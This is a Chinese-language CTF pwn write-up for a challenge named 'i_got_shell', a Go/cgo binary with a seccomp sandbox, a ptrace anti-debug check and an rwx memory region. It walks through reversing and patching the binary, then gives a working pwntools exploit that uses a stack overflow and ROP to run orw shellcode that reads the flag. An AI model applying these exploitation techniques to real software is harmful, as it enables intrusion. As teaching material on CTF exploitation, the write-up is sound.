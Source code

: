 # i_got_shell

## 出题思路

本题的出题思路是
- 使用golang进行cgo的编写，增加逆向难度
- 设置沙箱，禁用execve系列
- ban open, 但可以使用openat
- ban ptrace, 禁用寄存器调试
- 使用ptrace检测gdb调试、沙箱检测
- 初始化时mmap了一段rwxp的地址，可以劫持ret_address执行read最后ret到写入的shellcode

原本还想使用`close(1)`的方式将输出流关闭（需要使用侧信道爆破flag或者重定向），但是考虑到难度，故只开启了`close(2)`


所以本题需要解出的手法是orw

但是由于是golang编译的，所以在反编译的时候较为困难，同时设置了ptrace检测gdb调试，导致关键函数无法调试。解决的办法就是对二进制文件进行patch，将ptrace给nop，这样就可以进行gdb调试了，同时也可以去查看开了什么沙箱。

## 解题步骤

### 0x1

很常规的使用`checksec`检测文件，发现没开pie和canary

![checksec.png](./imgs/checksec.png)

### 0x2

尝试本地运行一下，发现了不得了的东西
- golang pwn
- sandbox

![start.png](./imgs/start.png)

由于提示了本题开启了沙箱，所以使用`seccomp-tools`查看。

不查看不要紧，一查看发现了很怪的事情？！这个`fxxk gdb ptrace`是啥玩意？为啥刚刚可以正常运行，这里就退出了呢？

![fxxk_gdb.png](./imgs/fxxk_gdb.png)


### 0x3

为了分析上述问题出现的原因，我们还是得从ida里逆向分析。

ida7.6及以上对golang实现了只能识别，比7.5版本好看多了。

首先在逆golang程序之前，需要知道两件事情：

- ida中打开的golang程序主函数是`main_main`
- 在`main_main`之前执行的是`main_init`，是golang中比main函数先执行的初始化函数。

来到`main_main`的位置，可以看到和我们刚刚运行的输出是一样的

![ida1.png](./imgs/ida1.png)

按tab看看伪代码，发现了最后执行的`main__Cfunc_cg0l4ng_vu1n_7unc`函数

![ida2.png](./imgs/ida2.png)

这个带有`Cfunc`的函数，其实就是golang调用c的函数，而函数名就是`cg0l4ng_vu1n_7unc`。我们可以在ida左侧的符号表中搜索这个函数

![ida3.png](./imgs/ida3.png)

发现相同的类似函数还有三个，分别是`cg0l4ng_sandbox`、`cg0l4ng_n3ver_kn0vv_th1s_1n1t`。同时右侧分支界面出现了`fxxk gdb ptrace!`的字样，这个就是我们上方使用seccomp-tools异常退出的地方，按tab查看伪代码。

![ida4.png](./imgs/ida4.png)

发现如果`ptrace(PTRACE_TRACEME) == -1`那么就直接退出了。其实这就是最简单的检测gdb调试的方法，我们将这一段给nop掉就能够正常gdb调试和检测sandbox辣！

其实上述伪代码还有两个点：

- 调用了`cg0l4ng_sandbox`
- 有一个`read`函数

大胆猜测一下sandbox函数是用来初始化沙箱的，而read函数就是用来栈溢出的。

### 0x4

我们还剩下一个`cg0l4ng_n3ver_kn0vv_th1s_1n1t`函数没有查看。我们进入然后查看。通过交叉查找发现其实这个函数是在`main_init_0`中被调用的，也就是golang的init函数，比main函数更早执行。

![ida5.png](./imgs/ida5.png)

发现别有洞天。除了三个基本的setbuf之外，还mmap了一段权限为7的地址。也就是可读可写可执行的地址，那么可以用来进行shellcode的注入。

我们在patch了gdb检测后，查看一下sandbox

![sandbox.png](./imgs/sandbox.png)

发现ban了很多函数，其中execve之类的获取shell的是无法使用了，open被ban了可以使用`openat`。同时`read`、`write`都没有ban，那么可以使用open、read、write的技巧，通过注入shellcode获取flag。

### 0x5

通过gdb调试，或者cyclic的计算，我们可以得出read从0x30字节开始就是覆盖ret_address了，同时可以最多写0x28长度的rop链。

我们可以通过先调用read(0, 0x114000, len)的方式向0x114000写入shellcode，然后将最后的ret_address写成0x114000，这样就能执行我们的shellcode了。

问题就来了，0x28长度如何调用read。

我们通过gdb调试，发现在ret的状态rdi是0，rdx是0x60，也就是我们只需要修改rsi为0x114000就可以辣。同时ROPgadget得到的rsi的gadget有两条，随意选择一条利用就可以了。

最后就是编写orw的shellcode了，我这里直接调用shellcraft来生成。

有一个注意的点，我怕0x60编写shellcode的长度不够，所以先调用了一次read(0,  0x114000, 0x100)，这样就能往后写更长的shellcode了。

## exp

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"
DEBUG = 0

elf = ELF("../file/i_got_shell_release")
io = process("../file/i_got_shell_release") if DEBUG else remote("127.0.0.1", 20004)

s = lambda data: io.send(data)
sa = lambda word, data: io.sendafter(word, data)

# gadget
pop_rdi_ret = 0x4846E7
pop_rsi_r15_ret = 0x4846E5

# rop
payload = b"b" * 0x28
payload += p64(pop_rsi_r15_ret) + p64(0x114000) + p64(0)  # read(0, 0x114000, 0x48)
payload += p64(elf.plt["read"])
payload += p64(0x114000)  # ret到shellcode
sa("!", payload)

# read写入更多的shellcode
shellcode = shellcraft.read(0, 0x114000, 0x500)
shellcode = asm(shellcode)
s(shellcode)

# orw
shellcode = shellcraft.openat(0, "/flag", 0)
shellcode += shellcraft.read(2, 0x114514, 0x100)
shellcode += shellcraft.write(1, 0x114514, 0x100)
shellcode = b"b" * 0x15 + asm(shellcode)
s(shellcode)

io.interactive()
```